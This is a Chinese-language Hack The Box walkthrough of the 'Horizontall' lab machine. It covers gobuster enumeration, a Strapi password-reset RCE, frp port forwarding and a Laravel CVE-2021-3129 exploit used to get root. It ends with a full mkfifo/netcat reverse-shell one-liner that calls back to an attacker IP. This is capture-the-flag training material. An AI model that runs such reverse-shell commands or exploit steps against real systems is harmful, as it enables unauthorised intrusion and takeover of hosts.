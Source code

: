 ```yaml
---
title: Horizontall
date: 2022-01-09 20:35:15
tags: Hack The Box
categories: 中间件
---
```


## 信息收集
目标主机只开放了ssh和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/c6ea98b32b994a8f8a0cf9c759db1cee.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们直接访问web服务，发现是一个正常的网页，扫描目录也没有发现有价值的信息

```bash
gobuster dir -u "http://horizontall.htb/" -w /usr/share/seclists/Discovery/Web-Content/common.txt -e 404,500 -t 50
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f6b30b44e96d409f934b299e104245eb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

那我们将注意力转移到子域名上，对子域名进行深入挖掘，发现了一个子域名，那么我们可以实施旁站注入

```bash
gobuster vhost -u http://horizontall.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 100
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/2cf9c69827e84e87b9616816c817376d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
访问这个页面时发现使用的是`strapi`这个CMS
![在这里插入图片描述](https://img-blog.csdnimg.cn/3724c08fac2d427f80427e762141b930.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们依照这个路径进行路径的扫描，发现存在一个admin目录，我们访问发现会跳转到登录表单上

```bash
gobuster dir -u "http://api-prod.horizontall.htb/" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e 404,500 -t 50
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/19c0c71aaef14180949dead326bc5c37.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 漏洞利用
尝试了一遍SQL注入，发现不存在SQL注入的问题。那我们转向中间件漏洞这个方向上，在EDB上查找到存在一个密码重置的RCE漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/fd1458a74a574a918911ef0a1ae87cfe.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/acf1f0e8aea34dacb917647d4ee1f190.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们编辑为一个exp文件，并执行它获取到一个用户交互的shell终端。这里显示用户名和密码是`admin:SuperStrongPassword1`
![在这里插入图片描述](https://img-blog.csdnimg.cn/d93aa5dc52404922aadb13f884d33ccf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
登录进页面发现存在文件上传点，但是这个并不能进行文件上传getshell
![在这里插入图片描述](https://img-blog.csdnimg.cn/8b81cd2146e843a5941549c0bfe46564.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们发现这个EXP是存在RCE命令执行的功能的，那我们可以在交互终端上进行反弹一个shell给我们
![在这里插入图片描述](https://img-blog.csdnimg.cn/88522af59e4e42d2bd77c449691c2e62.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权
我们将linpeas.sh脚本下载到目标机器上，尝试看看有没有存在提权的突破点
![在这里插入图片描述](https://img-blog.csdnimg.cn/a7e43564181146d0b3e82efaac54674a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
运行脚本后，但是我们并没有发现任何可提权的点，但是我们查看主机运行的端口可以发现，主机的1337端口正在以root身份运行程序，由于我们用nmap无法扫描出该端口，可以推断主机做了内网端口的转发。
![在这里插入图片描述](https://img-blog.csdnimg.cn/0638be03f2764c3f9db143944921a40f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们可以使用frp进行内网的端口复用，首先先将`frpc`和`frpc.ini`上传到目标主机上，上传成功后设置好我们本机的ip地址和要转发本地端口和远程端口
![在这里插入图片描述](https://img-blog.csdnimg.cn/5b03de7f59a043c887497c243c893d3d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
在目标机器和本机上分别开启监听服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/28bf83b3599646c89714b357a407787f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们访问本机的8000端口，发现是一个由Laravel框架搭建起来的网页程序
![在这里插入图片描述](https://img-blog.csdnimg.cn/8581ba2866b940708a56f715327a7152.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
这个应用程序近年发现一个存在RCE的漏洞，在github上可以搜到对应的EXP漏洞利用脚本，并执行可见漏洞利用成功
[https://github.com/LucifielHack/CVE-2021-3129_exploit](https://github.com/LucifielHack/CVE-2021-3129_exploit)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e95aaf54fdb343a199cf7ec03bc27d52.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们可以反弹一个root的shell到本机上

```bash
./exploit.py http://localhost:8000 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.25 4445 >/tmp/f"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9d4a8f62eb834cb78ddc826a02de9132.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/db008ce7bfb14ce78f99c0d2534651e1.png)
